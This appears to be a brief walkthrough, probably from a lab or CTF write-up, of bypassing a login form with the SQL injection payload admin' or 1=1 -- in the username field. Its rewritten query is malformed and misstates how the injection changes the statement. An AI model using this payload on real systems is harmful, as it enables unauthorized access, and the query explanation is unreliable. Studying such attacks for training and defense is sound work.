

- All we need to do enter in the username field the following payload: 
  - admin' or 1=1 --
- This will cause that the SQL query to be as follows:
  - SELECT * from admin or 1=1 -- where password = password
- which will cause to bypass the password field. 